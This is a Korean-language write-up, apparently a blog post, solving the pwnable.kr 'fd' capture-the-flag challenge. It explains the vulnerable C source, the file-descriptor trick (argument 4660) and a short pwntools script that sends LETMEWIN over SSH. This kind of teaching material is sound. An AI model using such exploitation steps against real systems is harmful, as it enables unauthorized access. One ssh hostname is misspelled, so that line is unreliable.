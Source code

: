 ```yaml
---
layout: post
title: Pwnable | [pwnable.kr] FD
subtitle: FD 문제 풀이
categories: Pwnable
tags: [Pwnable, pwnable.kr, Pentest]
---
```


**본 문제는 pwnable.kr를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://pwnable.kr/play.php">pwnable.kr</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178695660-0a014bc2-aa84-491e-bb99-3f3f7d3ac3bf.png" width = 400>
</p>

**FD**를 클릭하시면 아래와 같이 나올텐데 리눅스 환경에서는 `ssh fd@pwnabler.kr -p 2222`로 접속하고 패스워드는 **guest**로 접속하시면 됩니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387122-edf97741-8f33-4c74-9659-4e170ccfb462.png">
</p>

* 접속하면 위와 같은 내용이 나올 겁니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387172-e0cce2c7-6a3b-4d97-af79-3da6300ffe2f.png" width = 420>
</p>

* flag를 보면 읽을 권한이 없다. **fd.c** 파일을 분석해보고, ROOT 권한을 탈취하여 flag를 읽어야 할 것으로 예상된다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

fd.c 파일의 내용이다. 프로그램을 실행할 때 인자가 있어야 본 루팅을 이행 할 것이다.

* 우리의 인자가 사용되는 부분은 `int fd = atoi( argv[1] ) - 0x1234;` , `len = read(fd, buf, 32);`이 두 부분이다.

* 그리고 우리가 읽어야 할 flag를 실행해주는 코드는 `if(!strcmp("LETMEWIN\n", buf)`에 있다.

우선 **read()**는 인자가 사용되는 fd가 들어므로 read()함수를 알아보자.

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

**read()**함수의 원형이다.

* **int fd**
  * 읽을 파일의 파일 디스크립터

* __void *buf__
  * 읽어드린 데이터를 저장할 버퍼

* __size_t nbytes__
  * 읽어들일 데이터의 최대 길이 (buf의 길이보다 길어선 안됨)

번호  | 설명 | 파일스트림 |
:---: | :---:| :----------:|
0    | 표준 입력 |  stdin
1    | 표준 출력 |  stdout
2    | 표준 에러 |  stderr

우리가 buf에 LETMEWIN이라는 값을 넣기 위해서는 **read()**가 **표준 입력**이 되어야 하므로 `int fd = atoi( argv[1] ) - 0x1234;`에서 fd가 0이 되야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179387791-b3cbaa66-847e-46e4-ae48-278c9ffadd1d.png" width = 350>
</p>

```Python
from pwn import *
p = ssh("fd","pwnable.kr",2222,"guest")
path = "/home/fd/fd"
argv = "4660"
payload = [path,argv]
s = p.run(payload)
s.sendline('LETMEWIN')
s.interactive()
```
* 위 코드처럼 Pwntools을 이용해서도 값을 전송할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179391379-b5f1f116-29b7-4b4b-b5a8-efaa64d7ee90.png" width = 350>
</p>

* 0x1234를 10진수로 변환하면 **4660**이란 숫자가 나온다. `./fd 4660`으로 실행해보면 flag 값이 나온다. 이렇게 파일 디스크립터를 알아봤다 !



